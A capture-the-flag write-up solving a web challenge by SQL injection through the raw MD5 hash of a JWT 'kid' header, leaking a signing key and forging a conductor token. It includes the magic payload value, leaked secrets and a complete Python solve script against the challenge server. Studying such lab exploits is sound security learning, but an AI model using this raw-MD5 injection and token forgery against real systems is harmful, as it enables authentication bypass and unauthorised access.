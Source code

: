 ```yaml
---
ai_date: '2025-04-27 05:22:08'
ai_summary: Exploited SQL injection using raw MD5 hash in string concatenation for
  payload modification
ai_tags:
- sql
- md5
- injection
created: 2024-06-28T20:52
points: 370
solves: 173
tags:
- raw-md5
updated: 2024-11-23T20:30
---
```


## Analyze
A quick analysis of the network requests tells me that I have to sign my own JWT with the type `conductor` and a different kid.

```json
{
  "alg": "HS256",
  "kid": "passenger_key",
  "typ": "JWT"
}
```

```json
{
  "type": "passenger"
}
```

Using a random key doesn't work.

```
Key isn't passenger or conductor. Please sign your own tickets.
```

### Hint
The message returned has hash in messy unicode, that's peculiar, and it appears that the server is querying based on raw md5, using unsafe string concatenation.

```js
// i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
```

## Solve
We will reference past writeups [^1], and use their payload for md5 exploitation.
The basic idea is that raw md5 of this payload will result in a sql injection like this

```sql
SELECT login FROM admins WHERE password = 'xxx'||'1xxxxxxxx'
```

```python
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
```

We will first modify the header's kid, without changing anything.

```
Sorry passenger, only conductors are allowed right now. Please sign your own tickets. 
hashed ô÷uÞIB♣BçÙ+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e
hashed Rò▲sÜxÉÄ☻Å´↕\ä secret: a_boring_passenger_signing_key_?
```

SQL injection worked and we have our conductor key.

### Solve Script

```python
import requests
import re
import jwt

url = "https://fare-evasion.chal.uiuc.tf/"

response = requests.get(url)
set_cookie = response.headers.get("Set-Cookie")
access_token = re.search(r'access_token=(.*?);', set_cookie).group(1)
decoded_token = jwt.decode(access_token, algorithms=["HS256"], options={"verify_signature": False})
decoded_token['type'] = 'conductor'

# sql inject with raw md5 hash
secret = "a_boring_passenger_signing_key_?"
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
headers = {"Cookie": f"access_token={encoded_token}"}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
conductor_key = re.search(r'secret: (.+)\n', msg).group(1)
# "conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"
encoded_token = jwt.encode(decoded_token, conductor_key, algorithm="HS256", headers={"kid": "conductor_wkey"})
headers = {
    "Cookie": f"access_token={encoded_token}"
}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
# Conductor override success. uiuctf{sigpwny_does_not_condone_turnstile_hopping!}
```

[^1]: [SQL injection with raw MD5 hashes (Leet More CTF 2010 injection 300) - Christian von Kleist (posthaven.com)](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)